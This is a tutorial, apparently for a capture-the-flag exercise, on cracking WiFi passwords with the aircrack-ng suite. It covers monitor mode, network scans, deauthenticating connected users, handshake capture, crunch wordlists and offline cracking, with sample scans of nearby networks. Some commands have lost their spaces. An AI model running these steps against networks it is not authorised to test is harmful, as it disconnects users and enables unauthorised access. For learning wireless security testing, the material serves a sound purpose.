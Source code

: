 # CTF: WIFI Password Cracker Documentation

## Overview

This document provides a step-by-step guide to crack a WIFI password using various tools. This is intended for educational purposes and should only be used on networks you have permission to test.

## Tools Required

-`iwconfig`: To check network interfaces.

-`airmon-ng`: To enable monitor mode.

-`airodump-ng`: To capture network traffic.

-`aireplay-ng`: To deauthenticate users.

-`aircrack-ng`: To crack the WIFI password.

-`crunch`: To create a wordlist (optional).

## Steps

### 1. Check Network Interface

First, identify the network interfaces available on your system.

```sh

iwconfig

```

### 2. Switch to Monitor Mode

Enable monitor mode on the desired network interface.

```sh

airmon-ngstartwlan0

iwconfig

```

**Example Output:**

```

lo        no wireless extensions.


br-d212c57f6d84  no wireless extensions.


br-314938f5e24  no wireless extensions.


docker0   no wireless extensions.


wlan0mon  IEEE 802.11  Mode:Monitor  Frequency:2.427 GHz  

          Retry short limit:7   RTS thr:off   Fragment thr:off

          Power Management:on

```

### 3. Check for Open Network Connections

Scan for available networks.

```sh

airodump-ngwlan0mon

```

**Example Output:**

```text

[CH  3 ][ Elapsed: 1 min ][ 2024-11-07 23:29] 


 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER 


 AUTH


 ESSID


 B0:BE


:


76:EB:BE:E4   -1        0        0    0   1   -1                    <length:  0>                            

 E6:63:DA:6E:9D:05  -16        0        0    0  11  130   OPN              XXX_Student_WiFi                        

 48:E6:63:A3:03:C5  -25        1        0    0   5  720   WPA3 CCMP   SAE  low_2.4G.the101_UMJK                    

 E6:63:DA:6E:9C:D2  -86        1        6    1  11  130   OPN              XXX_Student_WiFi                                                   

...


 BSSID              STATION            PWR    Rate    Lost   Frames  Notes  Probes


 E6:63:DA:6E:9F:80  F6:A0:6D:74:FF:9C  -71    6e- 1e     0      275                                                 

 E6:63:DA:6E:9F:80  7A:2E:14:F4:C1:4D  -29    0 - 1      0        7         XXX_Student_WiFi     

...

```

### 4. Monitor Traffic to a Specific Network Channel

Capture traffic on a specific channel and BSSID.

```sh

airodump-ng-cCHANNEL_ID--bssidCHANNEL_BSSID-w/rootwlan0mon

```

### 5. Deauthenticate a User from the Network Channel

Send deauthentication packets to a user on the network.

```sh

aireplay-ng--deauthDEAUTH_COUNT-aCHANNEL_BSSIDwlan0mon

```

### 6. Capture the Handshake

The handshake is captured during the monitoring process. Ensure you have captured the handshake before proceeding to crack the password. The handshake file is typically saved with a `.cap` extension.

### 7. Create a Wordlist

If you do not have a wordlist, you can create one using tools like `crunch`.

```sh

crunch88abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789-owordlist.txt

```

This command generates a wordlist with all possible combinations of 8 characters using the specified character set. You can also get some good wordlists to extend to from this [link](https://github.com/TebogoYungMercykay/Thousands_Of_Resources_Related_To_H4cking/tree/master/cracking_passwords/more_wordlists).

### 8. Crack the WIFI Password with Your Wordlist

After capturing the handshake, use a wordlist to crack the password.

```sh

sudoaircrack-ng-a272:9A:0C:44:4A:82-wwordlist.txthandshake.cap

```

## Notes

- Ensure you have the necessary permissions to perform these actions on the network.
- This guide is for educational purposes only.

---
---
